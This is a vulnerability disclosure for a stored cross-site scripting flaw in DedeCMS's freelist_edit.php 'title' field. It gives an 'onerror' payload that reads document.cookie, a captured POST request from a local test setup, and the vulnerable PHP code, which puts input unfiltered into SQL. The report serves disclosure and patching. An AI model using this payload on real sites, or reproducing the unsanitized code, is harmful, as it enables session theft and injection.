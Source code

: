 # [DedeCMS<=V5.7.110-Stored XSS-freelist_edit.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.dedecms.com/

**[Affected Version]:** DedeCMS<=V5.7.110

**[Test Environment]:** windows10+apache+php7.0

**[Description]:** DedeCMS up to V5.7.110 was discovered to contain a cross-site scripting (XSS) vulnerabilitiy at /dede/freelist_edit.php via the `title` parameter.

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** http://192.168.0.102/dedecms/dede/freelist_edit.php?aid=13

**[Vulnerability Location]:** /dede/freelist_edit.php

**[Vulnerability Test]:**

1. First visit http://192.168.0.102/dedecms/dede/freelist_main.php

   ![](../../img/20230815125559.png)

   click "更改"

2. Then, visit http://192.168.0.102/dedecms/dede/freelist_edit.php?aid=13

   payload：`<img src=1 onerror=alert(document.cookie)>`

   ![](../../img/20230815125831.png)

3. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /dedecms/dede/freelist_edit.php HTTP/1.1
   Host: 192.168.0.102
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 1009
   Origin: http://192.168.0.102
   Connection: close
   Referer: http://192.168.0.102/dedecms/dede/freelist_edit.php?aid=13
   Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=k80ie8nj6f5b2vu6g6ao7s88t4; ENV_GOBACK_URL=%2Fdedecms%2Fdede%2Ffreelist_main.php; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=fb049b7933f5a742; DedeLoginTime=1692075221; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=fa5d5d0a9039e669; _csrf_name_9ede20a6=48560e3eadba172b1d2725a846ed91bf; _csrf_name_9ede20a61BH21ANI1AGD297L1FF21LN02BGE1DNG=18ceeaf7a395a728
   Upgrade-Insecure-Requests: 1
   
   dopost=save&aid=13&title=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&listdir=%7Bcmspath%7D%2Ffreelist%2F&defaultpage=index.html&nodefault=1&namerule=%7Blistdir%7D%2Findex_%7Blistid%7D_%7Bpage%7D.html&templet=%7Bstyle%7D%2Flist_free.htm&maxpage=100&keywords=bbbb&description=bbbbb&typeid=0&channel=1&att=s&subday=&pagesize=30&col=1&titlelen=60&keywordarc=&orderby=pubdate&order=desc&innertext=%3Cli%3E%0D%0A+++%5Bfield%3Aimglink%2F%5D%0D%0A++++%5Bfield%3Atextlink%2F%5D%0D%0A++++%3Cspan+class%3D%22info%22%3E%0D%0A++++++++%3Csmall%3E%E6%97%A5%E6%9C%9F%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Apubdate+function%3D%22getdatemk%28%40me%29%22%2F%5D%0D%0A++++++++%3Csmall%3E%E7%82%B9%E5%87%BB%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Aclick%2F%5D%0D%0A++++++++%3Csmall%3E%E5%A5%BD%E8%AF%84%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Ascores%2F%5D%0D%0A++++%3C%2Fspan%3E%0D%0A++++%3Cp+class%3D%22intro%22%3E+%5Bfield%3Adescription%2F%5D...%3C%2Fp%3E%0D%0A++++%3C%2Fli%3E&Submit2=%E4%BF%9D%E5%AD%98%E4%B8%80%E4%B8%AA%E5%88%97%E8%A1%A8
   ```

   

4. Visit http://192.168.0.102/dedecms/dede/freelist_main.php

   ![](../../img/20230815130048.png)

   ![](../../img/20230815130139.png)

   You also can visit http://192.168.0.102/dedecms/plus/freelist.php?lid=13

   ![](../../img/20230815130230.png)

**[code analysis]:**

In /dede/freelist_edit.php:

```php
<?php 
//...
else if( $dopost=='save' )
{
    if(!isset($types)) $types = '';
    if(!isset($nodefault)) $nodefault = '0';
    $atts = " pagesize='$pagesize' col='$col' titlelen='$titlelen' orderby='$orderby' orderway='$order' \r\n";
    $ntype = '';
    $edtime = time();
    if(is_array($types))
    {
        foreach($types as $v) $ntype .= $v.' ';
    }
    
    if($ntype!='') $atts .= " type='".trim($ntype)."' ";
    if(!empty($typeid)) $atts .= " typeid='$typeid' ";
    if(!empty($channel)) $atts .= " channel='$channel' ";
    if(!empty($subday)) $atts .= " subday='$subday' ";
    if(!empty($keywordarc)) $atts .= " keyword='$keywordarc' ";
    if(!empty($att)) $atts .= " att='$att' ";
    
    $innertext = trim($innertext);
    if(!empty($innertext)) $innertext = stripslashes($innertext);
    
    $listTag = "{dede:list $atts}$innertext{/dede:list}";
    $listTag = addslashes($listTag);
    $inquery = "
     UPDATE `#@__freelist` set
     title='$title', namerule='$namerule',
     listdir='$listdir', defaultpage='$defaultpage',
     nodefault='$nodefault', templet='$templet',
     edtime='$edtime', `maxpage`='$maxpage', listtag='$listTag', keywords='$keywords',
     description='$description' WHERE aid='$aid';
   ";
    $dsql->ExecuteNoneQuery($inquery);
    ShowMsg("成功更改一个自由列表!","freelist_main.php");
    exit();
}
//....
```

No filtering is done on title.

In /dede/freelist_main.php and /plus/freelist.php?lid=13, `title` is echoed on the page.



